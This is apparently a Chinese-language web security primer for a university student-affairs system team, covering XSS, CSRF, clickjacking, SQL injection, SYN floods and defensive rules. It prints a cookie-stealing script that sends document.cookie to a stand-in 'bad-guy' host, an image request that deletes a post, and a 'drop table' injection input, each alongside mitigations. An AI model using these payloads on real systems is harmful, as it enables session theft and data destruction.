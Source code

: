 #安全

##引言

互联网时代的数据安全与个人隐私受到前所未有的挑战，各种新奇的攻击技术层出不穷。安全问题分为两种，一种是正在运行的业务具有被破坏的风险，另一种是用户信息的泄露。我们握有用户的重要信息，务必要保证这些信息的安全。

安全是一个持续的过程。

## 同源策略与跨源资源共享

浏览器对于DOM、Cookie、XMLHttpRequest(Ajax)使用同源策略，但是script、img、iframe、link等标签均可以跨域获取资源。另外HTML 5可以实现XMLHttpRequest的跨域请求（CSP）。

##XSS攻击

实施方案

恶意js代码

<div><script>干了很多坏事</script></div>

1. 劫持并修改页面

通过劫持路由器等方案，修改页面并向其中加入恶意js代码。

2. 网站漏洞

例如写一篇包含恶意js代码的文字存入学工系统，之后所有浏览该段文字的用户，都会在浏览器中执行该段代码。

利用方式

1. 劫持cookie

恶意代码如下

var img = document.createElement("img");
img.src = "http://www.坏蛋.公司/log?" + escape(document.cookie);
document.body.appendChild(img);

这条请求会在远程服务器上留下一条带有cookie信息的记录。如果将Cookie设置为HttpOnly，可以防止被读取。

2. 在用户页面执行get或者post请求

例如我们只需要让学工管理员看待带有如下恶意代码的页面，即可删掉一篇帖子

var img = document.createElement("img");
img.src = "http://学工接口地址?m=delete&id=帖子的id"
document.body.appendChild(img);

类似的可以构造post请求。

3. XSS钓鱼

利用恶意js代码伪造一个登陆界面。

4. 识别用户浏览器、是否有ActiveX（可能会让用户机器中木马）等

5. 通过window.name对象在网页不同的tab间传递信息

## 跨站点请求访问

管理员在登录学工系统后，访问了另一个页面，其中包含一条连接。

<img src="http://学工接口地址?m=delete&id=帖子的id" />

则帖子被删除。

## 点击劫持

通过劫持路由器等方案，将一个层覆盖到原有的网页上。

## 注入攻击

var city = Reuqest.form("city");
var sql = "select * from order where ciry='" + city + "'";

此时，如果用户输入的是

beijing; drop table xxx;

则数据表被删除。

## 访问控制

有些访问没有进行权限控制，用户猜到URL即可看到内容。

## DDos

伪造大量的源IP地址，分别向服务器发送大量的SYN包，此时服务器收不到回应并等待一个SYN time，如果伪造的包数量非常多，则服务器会消耗过多的资源在这些连接上，无法服务于正常的用户。

## 盗链

## 业务安全

产品中使用了不正确的逻辑，例如只允许单点登录且只允许在客户端修改密码，则盗号者可以不停的登录，不给被盗者修改密码的机会。

## TSL/SSL

可以保证数据的完整性、机密性。EV SSL证书更佳。


## 法律法规

// TODO 高校相关产品是否有哪些信息可以披露的法律法规。

## 数据消密

## 安全规章

白名单机制、最小权限机制

1. 只开发用于服务的端口，不得使用如将SSH端口由22改为2222的方式来规避；

2. 所有服务器软件从Ubuntu内置源下载，不得使用第三方包；

3. 所有的输入都需要过滤，使用白名单策略，不应该包含<script>标签，更应该注意SQL过滤；

4. 部分输出应该过滤，将字符转为HtmlEncode和JavaScriptEncode;

& --> &amp;
